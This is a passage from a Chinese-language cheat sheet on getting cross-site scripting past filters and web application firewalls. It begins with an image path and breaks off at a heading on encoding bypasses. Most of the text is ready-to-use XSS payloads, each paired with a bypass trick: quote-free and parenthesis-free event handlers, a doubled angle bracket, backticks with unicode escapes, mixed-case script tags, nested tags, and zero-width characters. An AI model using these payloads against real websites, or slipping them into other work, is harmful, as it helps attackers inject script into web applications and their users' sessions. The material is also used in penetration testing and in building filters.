 使用'

    <img src=1 onclick=alert('1')>
    
#### 限制'绕过

使用/

    <img src=1 onclick=alert(/1/)>
    
不使用'

    <img src=1 onclick="alert(1)">

####<>限制绕过

有的WAF会处理尖括号和尖括号中的内容，将其替换成空。所以可以使用双写半开括号"<<"绕过:

    <img src=1 onerror="prompt(1)"<
    
#### ()限制绕过

有的对等号和左括号进行过滤，所以使用反引号代替括号(键盘上Tab符按钮的上面的按钮)，在通过编码解决。

    <script>setTimeoutprompt\u00601\u0060;</script>
    
### 回车换行绕过

很多时候，回车换行能绕过很多的限制

### 标签过滤绕过

fuzz各种标签，检查是否存在拦截或者过滤

fuzz的范围：属性内-标签内-标签外，不分先后

### 大小写绕过

    <ScRipt>ALeRt("XSS");sCRipT>
    
### 嵌套绕过

嵌套多个HTML标签或JS事件处理程序，来绕过对标签的限制

    <div><p>这是一段注入的文本</p><script>alert('xss');</script></div>    
    
### 零宽字符绕过

攻击者可以使用零宽字符来欺骗过滤器并隐藏恶意代码或绕过长度限制。

零宽字符是一类不可见的Unicode字符，它们在文本中不会显示出来，但会被计算在字符串的长度中。

零宽空格：它的Unicode码点是U+200B。

零宽度非断空格：它的Unicode码点是U+FEFF。

### 编码绕过
